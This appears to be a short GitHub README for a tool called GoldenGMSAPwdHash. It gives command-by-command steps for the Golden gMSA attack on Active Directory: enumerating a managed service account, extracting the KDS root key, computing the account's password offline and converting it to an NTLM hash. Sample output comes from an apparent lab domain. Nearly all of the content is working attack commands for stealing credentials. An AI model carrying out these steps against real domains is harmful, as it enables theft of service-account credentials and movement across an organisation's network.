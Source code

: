 # GoldenGMSAPwdHash
Calculate Password hash from the extracted GMSA Base64 Password String.

**Obtain GMSA Account Information**

```bash
GoldenGMSA.exe gmsainfo -d us.techcorp.local

sAMAccountName:         jumpone$
objectSid:                      S-1-5-21-210670787-2521448726-163245708-8601
rootKeyGuid:            03239602-ab96-d31f-3fe6-24ea819a66f6
msds-ManagedPasswordID: AQAAAEtEU0sCAAAAaAEAAAgAAAAJAAAAApYjA5arH9[..snip..]
```

**Extract the KDS Root Key**

```bash
GoldenGMSA.exe kdsinfo --forest us.techcorp.local

Guid:           03239602-ab96-d31f-3fe6-24ea819a66f6
Base64 blob:    AQAAAAKWIwOWqx/TP+Yk6oGaZvYAAAAAAQAAAAA[..snip..]
```

**Calculate Pasword Offline**

```bash
GoldenGMSA.exe compute --sid S-1-5-21-1437000690-1664695696-1586295871-1112 --kdskey BASE64_BLOB_DATA --pwdid MSDS-MANAGEDPASSWORDID
```

**Calculage NT HASH**

```bash
python3 goldengmsapwdhash.py --password XyQLsufa2UdpxPeVN0Gj6Zv7nCTvb92[..snip..]
 
NTLM Hash: a2*******************************80
```
